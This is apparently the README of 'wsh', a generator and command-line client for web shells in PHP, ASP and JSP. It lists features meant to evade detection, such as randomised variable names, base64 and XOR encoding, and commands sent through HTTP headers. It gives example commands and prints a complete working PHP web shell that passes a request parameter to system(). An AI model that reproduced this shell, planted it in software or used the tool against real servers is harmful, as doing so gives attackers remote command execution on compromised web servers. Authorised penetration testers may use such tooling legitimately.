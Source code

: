 # wsh

wsh (pronounced woosh) is a web shell generator and command line interface. This started off as just an http client since interacting with webshells is a pain. There's a form, to send a command you have to type in an input box and press a button. I wanted something that fits into my workflow better and ran in the terminal. Thus wsh was born.

The client features command history, logging, and can be configured to interact with a previously deployed webshell with a form/button. The generator creates webshells in php, asp, and jsp. They are generated with random variables, so each will have a unique hash. They can be configured with a whitelist, passwords, and allow commands to be sent over custom headers and parameters. The generator and client can be configured through command line flags or configuration files to allow for saving a setup that works for you without doing what I call the "--help" dance. Once configured, the client and generator use the same config file.

## Features

- Interact with deployed web shells via the command line
  - Logging
- Generate webshells in PHP, JSP, and ASP
  - IP whitelisting
  - Password protection
  - Send commands over custom headers/parameters
  - File download
  - File upload (Work in progress)
  - Base64 encoded shells for asp and php
  - XOR encrypted shells for asp and php

## Usage

### Connect functionality

```
wsh [flags] <URL>

-X, --method string        HTTP method: GET, POST, PUT, PATCH, DELETE (default "GET")
    --param string         Parameter for sending command
    --header string        Header for sending command
-P, --params strings       HTTP request parameters
-H, --headers strings      HTTP request headers
-c, --config string        Config file
-k, --ignore-ssl           Ignore invalid certs
    --log string           Log file
    --prefix string        Prepend command: 'cmd /c', 'powershell.exe', 'bash'
    --timeout int          Request timeout in seconds (default 10)
    --trim-prefix string   Trim output prefix
    --trim-suffix string   Trim output suffix
-h, --help                 help for wsh
```

### Generate webshell

```
wsh generate <language> [flags]

-X, --method string        HTTP method (GET,POST,PUT,PATCH,DELETE) (default "GET")
-p, --param string         Parameter for sending command
    --header string        Header for sending command
-w, --whitelist strings    IP addresses to whitelist
-o, --outfile string       Output file
    --no-file              Disable file upload/download capabilities
    --pass string          Password protect shell
    --pass-header string   Header for sending password
    --pass-param string    Parameter for sending password
    --xor-header string    Header for sending xor key
    --xor-key string       Key for xor encryption
    --xor-param string     Parameter for sending xor key
    --base64               Base64 encode shell
    --minify               Minify webshell code
-t, --template string      Webshell template file
-h, --help                 help for generate
```

## Examples

### Simple Shells

The following commands generates and interacts with a simple php web shell.

```
$ wsh generate php --param cmd --no-file -o shell.php
Created shell at shell.php.

$ wsh 127.0.0.1:8080/shell.php --param cmd
```

```php
<?php
  $MfOb = $_REQUEST['cmd'];
  $MfOb = trim($MfOb);
  system($MfOb);
  die;
?>
```

Commands can also be passed over http headers

```
$ wsh generate php --no-file --header user-agent  -o shell.php
Created shell at shell.php.

$ wsh 127.0.0.1:8080/shell.php --header user-agent
```

### Whitelisting

```
$ wsh generate php --no-file --param cmd -w 127.0.0.1,10.0.23.3 -w 192.4.22.3 -o shell.php
```

### Password Protection

Passwords can be sent over parameters or headers.

```
$ wsh generate php --no-file --param cmd --pass S3cr3t --pass-param pass
$ wsh 127.0.0.1:8080/shell.php --param cmd -P pass:S3cr3t

$ wsh generate php --no-file --param cmd --pass S3cr3t --pass-header pass-header
$ wsh 127.0.0.1:8080/shell.php --param cmd -H pass-header:S3cr3t
```

### Compile jsp to war

jar -cvf filename.war index.jsp
